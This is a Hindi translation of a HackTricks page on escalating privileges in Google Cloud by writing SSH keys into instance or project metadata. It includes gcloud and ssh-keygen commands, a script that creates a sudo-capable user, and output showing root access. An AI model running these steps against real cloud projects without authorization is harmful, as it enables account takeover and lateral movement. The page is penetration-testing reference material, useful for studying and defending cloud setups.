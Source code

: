 # GCP - कस्टम SSH मेटाडेटा जोड़ें

<details>

<summary><strong> AWS हैकिंग सीखें शून्य से लेकर हीरो तक </strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें.
* **अपनी हैकिंग ट्रिक्स साझा करें PRs जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में.

</details>

## मेटाडेटा में संशोधन <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

यदि आप **इंस्टेंस के मेटाडेटा को संशोधित कर सकते हैं**, तो स्थानीय रूप से विशेषाधिकार बढ़ाने के कई तरीके हैं। इस अनुमति वाले सेवा खाते के कुछ परिदृश्य इस प्रकार हैं:

_**डिफ़ॉल्ट सेवा खाता**_\
यदि सेवा खाते की **पहुंच सीमा** को **पूर्ण पहुंच** के लिए सेट किया गया है या कम से कम यह स्पष्ट रूप से **कंप्यूट API तक पहुंच की अनुमति दे रहा है**, तो यह कॉन्फ़िगरेशन **विशेषाधिकार बढ़ाने के लिए संवेदनशील** है। **डिफ़ॉल्ट** **सीमा** **संवेदनशील नहीं** है।

_**कस्टम सेवा खाता**_\
कस्टम सेवा खाता का उपयोग करते समय, विशेषाधिकार बढ़ाने के लिए निम्नलिखित IAM अनुमतियों में से **एक** **आवश्यक** है:

* `compute.instances.setMetadata` (एकल इंस्टेंस को प्रभावित करने के लिए)
* `compute.projects.setCommonInstanceMetadata` (प्रोजेक्ट में सभी इंस्टेंस को प्रभावित करने के लिए)

हालांकि Google [सिफारिश](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance) करता है कि कस्टम सेवा खातों के लिए पहुंच सीमाओं का उपयोग न करें, फिर भी ऐसा करना संभव है। आपको निम्नलिखित **पहुंच सीमाओं** में से एक की आवश्यकता होगी:

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **कस्टम मेटाडेटा में SSH कुंजियाँ जोड़ें**

GCP पर **Linux** **सिस्टम** आमतौर पर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) स्क्रिप्ट्स चला रहे होंगे। इनमें से एक [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) है, जो **नियमित रूप से** इंस्टेंस मेटाडेटा एंडपॉइंट को **अधिकृत SSH पब्लिक कुंजियों में परिवर्तनों के लिए क्वेरी करता है**।

**यदि एक नई पब्लिक** कुंजी पाई जाती है, तो उसे प्रोसेस किया जाएगा और **स्थानीय मशीन में जोड़ा जाएगा**। कुंजी के प्रारूप के आधार पर, यह या तो `~/.ssh/authorized_keys` फ़ाइल में एक **मौजूदा उपयोगकर्ता के लिए जोड़ा जाएगा या एक नया उपयोगकर्ता `sudo` अधिकारों के साथ बनाएगा**।

इसलिए, यदि आप अपने सेवा खाते के साथ **कस्टम इंस्टेंस मेटाडेटा को संशोधित कर सकते हैं**, तो आप एक विशेषाधिकार प्राप्त खाते में **SSH अधिकार प्राप्त करके** स्थानीय सिस्टम पर रूट तक **विशेषाधिकार बढ़ा** सकते हैं। यदि आप **कस्टम प्रोजेक्ट मेटाडेटा को संशोधित कर सकते हैं**, तो आप उस GCP प्रोजेक्ट में **किसी भी सिस्टम पर रूट तक विशेषाधिकार बढ़ा** सकते हैं जो accounts daemon चला रहा है।

### **मौजूदा विशेषाधिकार प्राप्त उपयोगकर्ता में SSH कुंजी जोड़ें**

चलिए अपनी खुद की कुंजी को एक मौजूदा खाते में जोड़कर शुरू करते हैं, क्योंकि शायद यह सबसे कम शोर करेगा।

**इंस्टेंस को मौजूदा SSH कुंजियों के लिए जांचें**। इन उपयोगकर्ताओं में से एक को चुनें क्योंकि उनके पास संभवतः sudo अधिकार होंगे।
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
आपको निम्नलिखित जैसे अनुभाग की तलाश करनी चाहिए:
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
ध्यान दें कि सार्वजनिक कुंजियों का **थोड़ा अजीब प्रारूप** है - **उपयोगकर्ता नाम** को **शुरुआत** में सूचीबद्ध किया गया है (एक कोलन के बाद) और फिर **अंत** में भी। हमें इस प्रारूप का पालन करना होगा। सामान्य SSH कुंजी संचालन के विपरीत, उपयोगकर्ता नाम बहुत महत्वपूर्ण है!

**उपयोगकर्ता नामों और कुंजियों के साथ पंक्तियों को एक नई टेक्स्ट** फ़ाइल में सहेजें जिसे `meta.txt` कहा जाता है।

मान लेते हैं कि हम ऊपर दिए गए उपयोगकर्ता `alice` को लक्षित कर रहे हैं। हम अपने लिए इस तरह से **एक नई कुंजी उत्पन्न करेंगे**:
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
अपनी नई पब्लिक की को `meta.txt` फाइल में निम्नलिखित प्रारूप का अनुकरण करते हुए जोड़ें:
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
अब, आप निम्नलिखित कमांड के साथ अपने इंस्टेंस के लिए **SSH कुंजी मेटाडेटा को पुनः लिख सकते हैं**:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
अब आप **`alice` के संदर्भ में एक शेल तक पहुँच सकते हैं** इस प्रकार:
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **नए विशेषाधिकार प्राप्त उपयोगकर्ता बनाएं और SSH कुंजी जोड़ें**

ऊपर दिए गए चरणों का पालन करते समय कोई मौजूदा कुंजियाँ नहीं मिलीं? `/etc/passwd` में कोई और दिलचस्प उपयोगकर्ता नहीं है जिसे लक्षित किया जा सके?

आप **वही प्रक्रिया का पालन कर सकते हैं** जैसा कि ऊपर बताया गया है, लेकिन बस **एक नया उपयोगकर्ता नाम बना लें**। यह उपयोगकर्ता स्वचालित रूप से बनाया जाएगा और उसे `sudo` के अधिकार दिए जाएंगे। स्क्रिप्टेड, प्रक्रिया इस तरह दिखेगी:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### प्रोजेक्ट स्तर पर SSH कुंजियाँ <a href="#sshing-around" id="sshing-around"></a>

पिछले अनुभाग में उल्लिखित विवरणों का अनुसरण करते हुए आप अधिक VMs को समझौता करने का प्रयास कर सकते हैं।

हम इसे थोड़ा और विस्तार दे सकते हैं [**प्रोजेक्ट स्तर पर SSH कुंजियों को लागू करके**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), जो आपको किसी भी उदाहरण के लिए **SSH के माध्यम से एक विशेषाधिकार प्राप्त खाते में प्रवेश करने की अनुमति देता है** जिसने स्पष्ट रूप से "Block project-wide SSH keys" विकल्प का चयन नहीं किया है।
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
यदि आप वास्तव में साहसी हैं, तो आप `gcloud compute ssh [INSTANCE]` टाइप करके अन्य बॉक्सेस पर अपना वर्तमान उपयोगकर्ता नाम भी उपयोग कर सकते हैं।

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
